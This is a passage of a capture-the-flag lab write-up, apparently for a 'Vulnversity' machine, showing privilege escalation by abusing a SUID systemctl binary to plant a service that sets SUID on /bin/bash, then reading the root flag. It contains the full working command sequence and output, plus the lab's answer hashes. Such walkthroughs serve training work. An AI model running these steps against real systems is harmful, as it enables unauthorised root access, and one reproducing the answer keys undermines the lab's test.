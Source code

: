 Answer : 8bd7992fbe8a6ad22a63361004cfcedb

--- 

## Privilege Escalation

---

````shell
$ $ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ 
---snipet
www-data@vulnuniversity:/bin$ TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
TF=$(mktemp).service
www-data@vulnuniversity:/bin$ echo '[Service]
> Type=oneshot
> ExecStart=/bin/sh -c "chmod +s /bin/bash"
> [Install]
> WantedBy=multi-user.target' > $TF
www-data@vulnuniversity:/bin$ /bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.SEw2A37oIs.service to /tmp/tmp.SEw2A37oIs.service.
www-data@vulnuniversity:/bin$ /bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.SEw2A37oIs.service to /tmp/tmp.SEw2A37oIs.service.
www-data@vulnuniversity:/bin$ bash -p
bash -p
bash-4.3# cd /root
cd /root
bash-4.3# cat root.txt
cat root.txt
a58ff8579f0a9270368d33a9966c7fd5
````

---

### 1. On the system, search for all SUID files. Which file stands out?

Answer : /bin/systemctl

---

### 2. It's challenge time! We have guided you through this far. Can you exploit this system further to escalate your privileges and get the final answer? Become root and get the last flag (/root/root.txt)

Answer : a58ff8579f0a9270368d33a9966c7fd5

---
